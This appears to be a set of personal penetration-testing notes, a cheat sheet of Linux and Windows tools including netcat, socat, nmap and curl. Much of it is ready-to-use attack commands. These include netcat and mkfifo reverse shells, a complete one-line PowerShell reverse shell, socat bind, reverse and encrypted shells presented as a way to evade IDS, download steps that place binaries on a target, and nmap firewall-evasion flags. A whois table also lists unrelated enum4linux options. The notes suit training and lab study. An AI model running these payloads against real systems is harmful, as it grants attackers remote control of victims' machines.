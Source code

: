 = Operating Systems

== Linux

=== strings
Find string in binary file.

Useful to find binary without absolute path (if the initial binary has SUID bit set). We can create our own binary and update the PATH to have our own binary executed instead of the real ones.

=== strace
Trace system calls and signals of an executable. This can be useful to see files used that we could replace with our own.

=== sudo
|===
|Argument |Description

|-l
|List the allowed/forbidden commands for the invoking user

|===

=== fail2ban
Monitor attempted brute forces

=== cURL
Performs HTTP requests. No cookie handled automatically.

|===
|Argument |Description

|-X
|Specify HTTP methods: POST, PUT, ...

|--header
|

|--data
|body: --data 'my data'

|--cookie
|Set cookie: --cokie name=value

|===

=== dig
Manually query recursive DNS servers

[source,bash]
----
dig google.com @1.1.1.1
----

==== mkfifo
Create a named pipe

[source, bash]
----
mkfifo /tmp/f
----

=== netcat
Used to manually perform all kinds of network interactions but can also be used to receive reverse shells and connect to remote ports attached to bind shells on a target.

Start netcat listener
[source, bash]
----
nc -lvnp <port number>
----

* -l: tell netcat that this will be a listener
* -v: verbose
* -n: do not resolve hostname or use DNS
* -p: port number

*If using a port below 1024, we need sudo. The port cannot be used by another service, and the ports 80, 443, 53 will likely go past outbound firewall rules on the target.*

Connect to a listener
[source, bash]
----
nc <target ip> <port number>
----

==== Common Shell Payloads
Some versions of netcat have the `-e` option which allows us to execute a process on connection. Not available everywhere because considered insecure. Example with a listener

[source, bash]
----
nc -lvnp <port> -e /bin/bash
----

If not available, use
[source, bash]
----
(netcast listen syntax) mkfifo /tmp/f; nc -lvnp <PORT> < /tmp/f | /bin/sh >/tmp/f 2>&1; rm /tmp/f

(netcat connect syntax) mkfifo /tmp/f; nc <LOCAL-IP> <PORT> < /tmp/f | /bin/sh >/tmp/f 2>&1; rm /tmp/f
----

The command first creates a named pipe at /tmp/f. It then starts a netcat listener, and connects the input of the listener to the output of the named pipe. The output of the netcat listener (i.e. the commands we send) then gets piped directly into sh, sending the stderr output stream into stdout, and sending stdout itself into the input of the named pipe, thus completing the circle.

If windows server, we need a powershell reverse shell. Copy in cmd.exe shell
[source, bash]
----
powershell -c "$client = New-Object System.Net.Sockets.TCPClient('<ip>',<port>);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
----

Other reverse shell: https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md[PayloadAllTheThings]

==== Shell stabilisation
With Python

[source, bash]
----
sudo nc -lvnp 443
python -c 'import pty;pty.spawn("/bin/bash")'
export TERM=xterm
CTRL+Z
stty raw -echo; fg
----

If the shell dies, any input in our terminal will not be visible so press `reset`

With rlwrap
[source, bash]
----
rlwrap nc -lvnp <port>
----
Useful with Windows shells.

With socat, limited to Linux targets. Need to transfer https://github.com/andrew-d/static-binaries/blob/master/binaries/linux/x86_64/socat?raw=true[socat static compiled binary] to the target by downloading it with wget.
[source, bash]
----
(attacker)sudo python3 -m http.server 80

Linux target: wget <LOCAL-IP>/socat -O /tmp/socat
Windows target: Invoke-WebRequest -uri <LOCAL-IP>/socat.exe -outfile C:\\Windows\temp\socat.exe
----

Once we stabilised it, we configure the number of rows and columns.

[source, bash]
----
stty -a (check values of our own terminal and use them for the reverse/bind shell)
stty rows <number>
stty cols <number>
----

=== socat
Netcat on steroids. Usually more stable shell than netcat shells but the syntax is more difficult, and it is not installed by default. Socat is a connector between two points that could be virtually anything (port, keyboard, file, ...)

==== Reverse shell
[source, bash]
----
socat TCP-L:<port> - <=> nc -lvnp <port>
----

On windows
[source, bash]
----
socat TCP:<LOCAL-IP>:<LOCAL-PORT> EXEC:powershell.exe,pipes
----
The "pipes" option is used to force powershell (or cmd.exe) to use Unix style standard input and output.

On Linux
[source, bash]
----
socat TCP:<LOCAL-IP>:<LOCAL-PORT> EXEC:"bash -li"
----

==== Bind shell
On Linux target, we would use for our listener

[source, bash]
----
socat TCP-L:<PORT> EXEC:"bash -li"
----

On Windows target, we would use for our listener
[source, bash]
----
socat TCP-L:<PORT> EXEC:powershell.exe,pipes
----

Regardless of the target, we use this on our attacking machine
[source, bash]
----
socat TCP:<TARGET-IP>:<TARGET-PORT> -
----

==== Fully stable Linux tty reverse shell
Both machines must have socat installed (use socat static compiled binary).

[source, bash]
----
(attacker) socat TCP-L:<port> FILE:`tty`,raw,echo=0
(target) socat TCP:<attacker-ip>:<attacker-port> EXEC:"bash -li",pty,stderr,sigint,setsid,sane
----

* pty, allocates a pseudoterminal on the target -- part of the stabilisation process
* stderr, makes sure that any error messages get shown in the shell (often a problem with non-interactive shells)
* sigint, passes any Ctrl + C commands through into the sub-process, allowing us to kill commands inside the shell
* setsid, creates the process in a new session
* sane, stabilises the terminal, attempting to "normalise" it.

==== Encrypted shell
Can be created in both bind and reverse shell -> bypass IDS.

First generate certificate on our attacking machine
[source, bash]
----
openssl req --newkey rsa:2048 -nodes -keyout shell.key -x509 -days 362 -out shell.crt
cat shell.key shell.crt > shell.pem
----

Set up reverse shell listener with verify=0 to not bother with the validation of the certificate.
[source, bash]
----
socat OPENSSL-LISTEN:<PORT>,cert=shell.pem,verify=0 -
----

Connect back to our listener
[source, bash]
----
socat OPENSSL:<LOCAL-IP>:<LOCAL-PORT>,verify=0 EXEC:/bin/bash----
----

For bind shell:
[source, bash]
----
(attacker) socat OPENSSL:<TARGET-IP>:<TARGET-PORT>,verify=0 -
(target) socat OPENSSL-LISTEN:<PORT>,cert=shell.pem,verify=0 EXEC:cmd.exe,pipes
----

Certificate must be used on both side!

===== Example
[source, bash]
----
socat OPENSSL-LISTEN:53 FILE:tty,raw,echo=0,cert=encrypt.pem,verify=0

socat OPENSSL:10.10.10.5:53,verify=0 EXEC:"bash -li",pty,stderr,sigint,setsid,sane
----

=== nmap

Results can be opened (SYN/ACK), closed (RST) or filtered (if firewall rejects the request)

[source,bash]
----
iptables -I INPUT -p tcp --dport <port> -j REJECT --reject-with tcp-reset
----

|===
|Argument |Description

|-sT, -sS, -sU
|TCP scan, half open or stealth scans, UDP scans

|-sC
|--script=default script scan, --script=vuln

|-sV
|Probe open ports to determine service/version info

|-Pn
|Disable host discovery so no ping. Some hosts block ping (Windows by default).

|-p-
|Scan all ports.

|-oA
|Write output to file.

|===

==== Scan types
* TCP scans, 3 way handshake.
* Stealth scans are faster, but they require sudo permissions (need to create raw packets) and unstable services are sometimes brought down by SYN scans. Running nmap without sudo means having a default 3-way TCP handshake.
* UDP scans don't expect response. When port close, target should respond with an ICMP (ping) packet containing a message that the port is unreachable. If not, the port is considered opened/filtered.
* NULL (-sN): empty packet, target must respond RST if closed
* FIN (-sF): FIN flag packet, target must respond RST if closed
* Xmas (-sX): malformed packets (PSH, URG, FIN), expect RST response for closed ports

The goal is to evade firewall configured to drop incoming TCP packets to blocked ports which have the SYN flag set. Most modern IDS solutions are savvy to these scan types, so we can't rely on them 100% when dealing with modern systems.

Microsoft Windows and Cisco sometimes respond with RST for malformed packets.

ICMP network scanning (-sn): send ping requests to multiple IP addresses. Not always accurate but it provides a baseline.

[source,bash]
----
nmap -sn 192.168.0.1-254
nmap -sn 192.168.0.0/24
----

==== NSE Scripts
Nmap Scripting Engine, written in Lua.

* safe: won't affect the target
* intrusive: not safe, likely to affect the target
* vuln: scan for vulnerabilities
* exploit: attempt to exploit a vulnerability
* auth: attempt to bypass authentication for running services
* brute: attempt to bruteforce credentials for running services
* discovery: attempt to query running services for further info about the network (query SNMP server)

Examples:

* --script=vuln
* --script=http-fileupload-exploiter
* --script=smb-enum-users,smb-enum-shares

Can be combined with --script-args

https://nmap.org/nsedoc/[List of scripts] also available with nmap --script-help <script-name> or in /usr/share/nmap/scripts

Scripts can also be downloaded manually.

==== Firewall evasion

* -Pn: do not ping
* -f: fragment the packets to avoid detection (firewall, IDS)
* --mtu: maximum transmission unit size (multiple of 8)
* --scan-delay <time>ms: avoid any time-based firewall/IDS triggers which may be in place
* --badsum: generate invalid checksum for packets that will be dropped automatically by a firewall/IDS so we know there is one.

=== nslookup
Query Internet name servers interactively

|===
|Argument |Description

|--type
|CNAME, A, AAAA, .... Defaults are A then AAAA

|===

=== traceroute
* maps the path a request take as it heads to the target machine
* uses UDP by default but can be done by ICMP with a switch

=== whois
Query who a domain name is registered to. In Europe, personal details are redacted.

|===
|Tag |Function

|-U
|get userlist

|-M
|get machine list

|-N
|get namelist dump (different from -U and-M)

|-S
|get sharelist

|-P
|get password policy information

|-G
|get group and member list

|-a
|all of the above (full basic enumeration)
|===

== Windows

=== tracert
* maps the path a request take as it heads to the target machine
* uses ICMP by default but can be done by UDP with a switch

=== Run command

|===
|Command |Name |Description

|cmd
|Command Prompt
|run command

|compmgmt
|Computer Management
|System Tools, Storage, Services and Application

|control.exe
|Control Panel
|

|eventvwr.exe
|Event Viewer
|Audit of the system

|lusrmgr.msc
|Local User and Group Management
|

|msconfig
|System Configuration
|Troubleshooting, diagnose startup issues

|msinfo32.exe
|System Information
|Advanced info on hardware and software settings

|regedt32.exe
|Registry Editor
|

|resmon
|Resource Monitor
|htop

|taskmgr
|Task Manager
|

|UserAccountControlSettings.exe
|User Account Control
|

|winver.exe
|About Windows
|Windows version information

|===